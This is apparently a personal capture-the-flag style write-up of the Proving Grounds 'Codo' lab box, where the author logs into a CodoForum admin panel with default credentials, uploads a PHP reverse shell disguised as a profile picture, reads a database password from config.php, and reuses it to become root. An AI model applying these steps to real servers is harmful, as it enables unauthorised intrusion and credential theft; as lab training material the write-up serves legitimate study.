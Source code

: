 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Codo"
date:   2024-07-29 16:53:42 -0400
categories: oscp proving-grounds TJNull
---
```



192.168.194.23
me - 192.168.45.213

┌──(kali㉿kali)-[~/offsec/pg-practice/Codo]
└─$ searchsploit codoforum                       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
CodoForum 2.5.1 - Arbitrary File Download                                         | php/webapps/36320.txt
CodoForum 3.2.1 - SQL Injection                                                   | php/webapps/40150.txt
CodoForum 3.3.1 - Multiple SQL Injections                                         | php/webapps/37820.txt
CodoForum 3.4 - Persistent Cross-Site Scripting                                   | php/webapps/40015.txt
Codoforum 4.8.3 - 'input_txt' Persistent Cross-Site Scripting                     | php/webapps/47886.txt
Codoforum 4.8.3 - Persistent Cross-Site Scripting                                 | php/webapps/47876.txt
CodoForum v5.1 - Remote Code Execution (RCE)                                      | php/webapps/50978.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


http://192.168.194.23/admin/index.php
admin : admin

Current version: V.5.1.105


jubjub
NFp$2Re@9@Jh9%f


python3 50978.py -t http://192.168.194.23/admin/index.php -u admin -p admin -i http://192.168.45.213 -n 80

this stupid thing isnt working but we do have access to the admin console so lets try something else:


uploading admins profile picture, upload php reverse shell afterf adding php as an appropriate extention thype. Then upload and find the new file by checking the profile pic source;

src="http://192.168.194.23/sites/default/assets/img/profiles/66a825243069d.php"


Clicking that url in a browser will trigger the script which then calls nc running on our kali machine and we get a reverse shell on the box
=======================================================================================================

found this file after doing some digging:

```
www-data@codo:/var/www/html/sites/default$ cat config.php
cat config.php
<?php

/* 
 * @CODOLICENSE
 */

defined('IN_CODOF') or die();

$CF_installed=true;

function get_codo_db_conf() {


    $config = array (
  'driver' => 'mysql',
  'host' => 'localhost',
  'database' => 'codoforumdb',
  'username' => 'codo',
  'password' => 'FatPanda123',
  'prefix' => '',
  'charset' => 'utf8',
  'collation' => 'utf8_unicode_ci',
);

    return $config;
}

$DB = get_codo_db_conf();

$CONF = array (
    
  'driver' => 'Custom',
  'UID'    => '631042af544ef',
  'SECRET' => '631042af544f0',
  'PREFIX' => ''
);
```

trying to su offsec didnt work but su root DID work
